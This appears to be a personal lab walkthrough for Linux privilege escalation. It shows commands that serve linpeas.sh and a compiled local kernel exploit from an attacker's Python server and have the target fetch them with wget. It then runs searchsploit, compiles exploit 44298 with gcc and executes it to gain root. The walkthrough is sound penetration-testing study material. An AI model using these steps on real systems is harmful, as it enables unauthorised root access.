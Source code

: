 Privilege Escalation

Privilege Escalation

# Works
1. On Kali machine, go to the directory where linpeas.sh is stored, then create a python server
`python -m SimpleHTTPServer 5678`
![602ce5fd02a506063ac8ffe28c0703ca.png](../../_resources/3a97b61490234990a7405c9d71a06538.png)

2. On the target, download linpeas.sh to the target's /tmp directory using wget
`wget http://192.168.119.214:5678/linpeas.sh /tmp`
![c1c55ed2ebdb3d6287fb961fd5b9d37c.png](../../_resources/cf8c5c925ead43d0994c4cd9fb8a5448.png)

3. Notice that the netcat listener on Kali should show the GET request from the target 
![bf23de88ba4c3b82e509e5dc2891e9fa.png](../../_resources/450592bdb87f44dcb746bcc3fd91e260.png)

4. Change the permissions so that linpeas.sh can be executed
`chmod +x linpeas.sh`
![18aff38436cae8ac49a7848fcb75a24b.png](../../_resources/25ddb6396d1d46b4b0dc6552fe2e3c09.png)

5. Run linpeas.sh and redirect to a file.
`./linpeas.sh > linout.txt`
![ede281227540c1b7ccddeea1ffcddaa0.png](../../_resources/7a9fad693a81410aaf7b93470470155d.png)

6. The first item that absolutely must be looked at is the OS. It is Linux version 4.4.0-116-generic.
![2ba16b0aa67ba4c3ef9eaa0eefb6e76e.png](../../_resources/d8cfddb2e2d04654b528ec8218c8fa28.png)

7. Searchsploit 'Ubuntu 4.4.0-116' and download
`searchsploit ubuntu 4.4.0-116`
`searchsploit -m 44298`
8. Compile the exploit
`gcc 44298.c -o exploit`
![79c189655ceb919ca06edcf0d60a1b16.png](../../_resources/a015f3a2a8a34455b862cfba9cc3c5f7.png)

9. Run the python simple server command in the directory where the compiled exploit is located
`python -m SimpleHTTPServer 5678`
![40c7c5ea352a0ed94070ef60c2b4b64b.png](../../_resources/87e53c6b94e741c19eb6f1bcffa8ef4f.png)

10. From the target, download the exploit using wget
`wget http://192.168.119.214:5678/exploit`
![3cc4066727d728acb552d2fc52b0fcf1.png](../../_resources/531530cd83e04abaadb0f27e4f59c215.png)

11.Change the permissions to make it executable
`chmod +x exploit`
![4fc76b88ed9f7b2bf8550c8f761a0b68.png](../../_resources/6443b2e2f55c4ed6b03532bc2cac0098.png)

12. Run the exploit, we are now root!
`./exploit`
![9569cfc74dfa7307fdbc1dabdd0b8d53.png](../../_resources/10c11b6c93674b2d885726b26cdf6d8c.png)









